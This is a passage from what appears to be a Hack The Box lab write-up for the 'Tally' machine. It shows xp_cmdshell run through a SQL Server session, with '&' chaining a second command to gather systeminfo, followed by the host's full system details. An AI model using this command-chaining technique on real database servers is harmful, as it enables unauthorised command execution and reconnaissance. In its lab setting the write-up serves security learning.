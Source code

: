Apparently certain commands are not available.  
To avoid these errors we must use the operator *&* in the following way:

```zsh
1> xp_cmdshell 'cd C:\ & systeminfo';
2> go

	output                                                                              
----------------------------------------------------------

	NULL                                                                             
	Host Name:                 TALLY                                                   
	OS Name:                   Microsoft Windows Server 2016 Standard
	OS Version:                10.0.14393 N/A Build 14393 
	OS Manufacturer:           Microsoft Corporation  
	OS Configuration:          Standalone Server 
	OS Build Type:             Multiprocessor Free 
	Registered Owner:          Windows User       
	Registered Organization:                      
	Product ID:                00376-30726-67778-AA877
	Original Install Date:     28/08/2017, 15:43:34   
	System Boot Time:          17/02/2018, 20:05:52      

	System Manufacturer:       VMware, Inc.   
	System Model:              VMware Virtual Platform    

	System Type:               x64-based PC   
	Processor(s):              2 Processor(s) Installed.    

	                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz       

	                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz    

	BIOS Version:              Phoenix Technologies LTD 6.00, 05/04/2016 

	Windows Directory:         C:\Windows                

	System Directory:          C:\Windows\system32       

	Boot Device:               \Device\HarddiskVolume1    

	System Locale:             en-gb;English (United Kingdom) 

	Input Locale:              en-gb;English (United Kingdom) 

	Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London                                               

	Total Physical Memory:     2,047 MB  
	Available Physical Memory: 231 MB                                                                            
	Virtual Memory: Max Size:  4,458 MB    
	Virtual Memory: Available: 657 MB                    

	Virtual Memory: In Use:    3,801 MB                  

	Page File Location(s):     C:\pagefile.sys           

	Domain:                    HTB.LOCAL                

	Logon Server:              \\TALLY       
	Hotfix(s):                 2 Hotfix(s) Installed. 
```
